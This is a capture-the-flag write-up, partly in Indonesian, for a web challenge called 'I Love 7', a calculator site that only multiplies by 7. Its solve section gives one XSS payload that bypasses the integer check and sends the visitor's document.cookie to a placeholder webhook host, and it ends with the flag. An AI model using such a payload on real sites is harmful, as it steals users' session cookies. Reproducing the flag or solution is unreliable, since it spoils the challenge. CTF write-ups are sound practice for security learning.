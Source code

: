 # I Love 7

**Category** : Web
**Points** : 484

Daffa created a calculator website that only calculates multiples of 7. The website was used to test the latest service from his client, Dewaweb. Can you find the vulnerability?

7 _ 1 = 7
7 _ 2 = 14
7 _ 3 = 21
7 _ ? = ??

Link: `http://103.152.242.68:10011/`
Attachment: [here](https://drive.google.com/file/d/1xoomnOo1iKoXRdvDUQXeb0NGnPljTSGF/view?usp=sharing)
Author: daffainfo

## Solve

Di karenakan validasi memerlukan sebuah integer maka dapat di bypass dengan payload berikut

Payload : `http://app:8080/?digit=1[location="http://yourwebhook.site?"%2Bdocument.cookie]`

`ARA5{7_15_mY_LuCKy_nUmb3r_h4HaH4ha}`
